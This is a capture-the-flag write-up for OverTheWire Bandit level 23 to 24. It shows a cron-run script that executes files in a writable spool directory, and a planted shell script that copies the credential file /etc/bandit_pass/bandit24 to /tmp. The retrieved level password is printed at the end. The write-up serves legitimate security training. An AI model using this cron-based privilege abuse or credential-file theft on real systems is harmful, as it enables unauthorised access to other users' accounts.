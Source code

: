 # Level 23 - Level 24: Bandit - OverTheWire

## Level Goal

A program is running automatically at regular intervals from cron, the time-based job scheduler. Look in /etc/cron.d/ for the configuration and see what command is being executed.

NOTE: This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

NOTE 2: Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…

## Solution
In `/etc/cron.d/cronjob_bandit24`, there is a cron job that runs every minute, executing `cronjob_bandit24.sh`, run by user `bandit24`. If we look at that script, we can see it first executes any executable scripts in the `/foo` folder that user `bandit23` owns. Then, it deletes all files in the `/var/spool/bandit24/foo` directory.

Essentially, we can take advantage of this by getting the `bandit24` user to execute any script on our behalf. Simply use `vi` to create a `.sh` script that reads the file in `/etc/bandit_pass/bandit24` and outputs it (`>`) to a file in the writable `/tmp` directory.

From there, we just need to wait a minute for the cron job to run, and then we will be able to `cat` the new file that was created, containing the password.

```bash
bandit23@bandit:~$ cat /etc/cron.d/cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@bandit:~$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done


bandit23@bandit:~$ vi /var/spool/bandit24/foo/gottem.sh

#!/bin/bash

cat /etc/bandit_pass/bandit24 > /tmp/gottem

bandit23@bandit:~$ cat /tmp/gottem
cat: /tmp/gottem: No such file or directory
bandit23@bandit:~$ cat /tmp/gottem
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar

```
